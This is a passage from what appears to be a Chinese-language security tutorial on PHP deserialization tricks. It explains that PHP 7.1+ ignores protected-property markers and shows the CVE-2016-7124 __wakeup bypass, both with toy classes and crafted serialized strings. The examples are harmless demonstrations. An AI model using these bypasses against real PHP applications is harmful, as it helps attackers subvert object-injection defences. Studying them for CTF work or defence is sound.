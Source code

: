 ## 反序列化绕过小Trick

### php7.1+反序列化对类属性不敏感

我们前面说了如果变量前是protected，序列化结果会在变量名前加上`\x00*\x00`

但在特定版本7.1以上则对于类属性不敏感，比如下面的例子即使没有`\x00*\x00`也依然会输出`abc`

```
<?php
class test{
    protected $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');
```

### 绕过__wakeup(CVE-2016-7124)

> 版本：
>
> ​	PHP5 < 5.6.25
>
> ​	PHP7 < 7.0.10

利用方式：`序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行`

对于下面这样一个自定义类

```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function __wakeup(){
        $this->a='666';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
```

如果执行`unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');`输出结果为`666`

而把对象属性个数的值增大执行`unserialize('O:4:"test":2:{s:1:"a";s:3:"abc";}');`输出结果为abc

### 绕过部分正则
